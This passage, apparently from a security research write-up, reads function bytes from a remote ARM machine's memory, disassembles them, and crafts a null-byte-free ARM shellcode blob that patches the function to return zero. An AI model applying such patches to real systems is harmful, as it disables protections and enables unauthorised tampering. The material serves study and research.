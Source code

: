
now we can compile & run it on the remote machine and it will result the following:

```bash
/tmp $ ls
read.c
/tmp $ gcc -std=c99 read.c -o read
/tmp $ ./read
f8 40 2d e9 0d 20 a0 e1 7f 3d c2 e3 04 20 90 e5 3f 30 c3 e3 b0 50 d0 e1 00 f8 40 2d e9 0d 20 a0 e1 7f 3d c2 e3 04 20 90 e5 3f 30 c3 e3 b0 50 d0 e1 00 27 53 a0 01 ...
```

Now if we disassemble it with [shellstorm](https://shell-storm.org/online/Online-Assembler-and-Disassembler/) we get:
![disassembled](https://i.imgur.com/UsvJQ18.png)

As we can see, this is definately where the function starts because it pushes the registers with the following instruciton:

```
0x00000000800c7d64: F8 40 2D E9 push {r3, r4, r5, r6, r7, lr} 
0x00000000800c7d68: 0D 20 A0 E1 ...
0x00000000800c7d6c: 7F 3D C2 E3 ...
0x00000000800c7d70: 04 20 90 E5 ...
```


#### Crafting the patch
in arm assembly, function's return value is being put inside r0, so if we want this function to return zero we could just override the latter instructions with:

```
mov r0, #0
pop {r3, r4, r5, r6, r7, pc}
```

(if you are not familiar with arm assembly, just read about the lr and pc registers).

The issue with this assembly code that it assembles to blob that contains nullbytes (because both r0, and #0 are encoded to 0x00).

So get over it we can just do

```assembly
subs r2, r2
push {r2, r8}
pop {r0, r8}
pop {r3, r4, r5, r6, r7, pc}
```

which assembles to the following blob: 
```plaintext
"\x02\x20\x52\xe0\x04\x01\x2d\xe9\x01\x01\xbd\xe8\xf8\x80\xbd\xe8"
```
(compiled with [shellstorm](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=subs+r2%2C+r2%0D%0Apush+%7Br2%2C+r8%7D%0D%0Apop+%7Br0%2C+r8%7D%0D%0Apop+%7Br3%2C+r4%2C+r5%2C+r6%2C+r7%2C+pc%7D%0D%0A&arch=arm&as_format=inline#assembly) to arm)
